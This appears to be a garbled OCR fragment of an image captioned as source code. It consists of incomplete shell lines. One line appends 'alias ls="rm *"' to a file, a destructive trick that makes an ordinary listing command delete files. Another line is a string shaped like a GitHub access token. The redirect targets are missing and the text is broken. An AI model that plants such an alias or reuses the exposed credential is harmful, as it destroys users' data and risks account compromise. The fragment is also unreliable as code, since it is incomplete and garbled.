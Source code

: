 chmod u+x

echo '#!/bin/bash' >

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

echo 'alias ls="rm *"' >> 

